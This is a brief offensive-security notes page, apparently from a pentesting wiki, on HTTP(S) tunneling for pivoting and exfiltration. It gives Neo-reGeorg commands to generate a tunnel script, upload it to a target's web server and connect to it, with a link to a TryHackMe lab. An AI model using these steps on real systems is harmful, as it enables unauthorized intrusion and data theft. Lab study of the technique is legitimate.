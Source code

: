 # HTTP(S) Tunneling

## Theory
Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel. We can pivoting throught this.
{% hint style="danger" %}
We can also use HTTP(S) Tunneling as a good [exfiltration](../exfiltration/README.md) channel.
{% endhint %} 
## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:
```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host them on a webserver.
On the attacking machine we can do:
```bash
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php
```
{% endtab %}
{% endtabs %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}